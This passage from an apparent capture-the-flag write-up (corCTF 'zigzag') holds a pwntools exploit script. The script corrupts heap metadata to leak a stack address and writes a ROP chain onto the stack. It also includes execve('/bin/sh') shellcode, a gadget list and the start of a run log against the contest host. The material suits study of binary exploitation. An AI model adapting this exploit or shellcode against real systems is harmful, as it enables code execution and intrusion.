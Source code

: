 ```py  

def edit(idx, size, data):  
   io.sendlineafter(b"> ", b"4")  
   io.sendlineafter(b"Index: ", str(idx).encode())  
   io.sendlineafter(b"Size: ", str(size).encode())  
   io.sendlineafter(b"Data: ", data)

alloc(0, 0x500-1, b"A")  
for i in range(1, 5):  
   alloc(i, 1000, b"vv")

edit(4, 0x400 + 5*8, b"X"*0x400 + pwn.p64(0x208000)*3 + pwn.p64(0x000) +
pwn.p64(0))

alloc(5, 1000, b"A")  
show(5)  
io.recv(0x100)

stack = pwn.u64(io.recv(8))  
pwn.log.info(f"stack: {hex(stack)}")

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(0x208000)*3 + pwn.p64(0x000) +
pwn.p64(0))

shellcode =
b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

alloc(14, 1000, shellcode)

"""  
0x0000000000201fcf : pop rax ; syscall  
0x0000000000203147 : pop rdi ; ret  
0x000000000020351b : pop rsi ; ret  
0x00000000002035cf : xor edx, edx ; mov rsi, qword ptr [r9] ; xor eax, eax ;
syscall  
0x0000000000201e09 : ret  
0x0000000000203715 : add rsp, 0x68 ; pop rbx ; pop r14 ; ret  
"""

rop = pwn.ROP(exe)  
binsh = 0x208000+(48)  
rop.execve(binsh, 0, 0)

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0x50)* 3 + pwn.p64(0) +
pwn.p64(0))  
alloc(11, 0x400, pwn.p64(0x203147) + pwn.p64(0x208000) + pwn.p64(0x20351b) +
pwn.p64(0x1000) + pwn.p64(0x201fcf) + pwn.p64(0xa) + pwn.p64(0x208000))

edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(stack-0xd0)* 3 + pwn.p64(0) +
pwn.p64(0))

alloc(12, 1000,pwn.p64(0x202d16))  
edit(12, 0x7, pwn.p64(0x0000000000203715))

io.interactive()

"""  
nasm@off:~/Documents/pwn/corCTF/zieg$ python3 remote.py REMOTE HOST=be.ax
PORT=31278  
[*] '/home/nasm/Documents/pwn/corCTF/zieg/zigzag'  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
```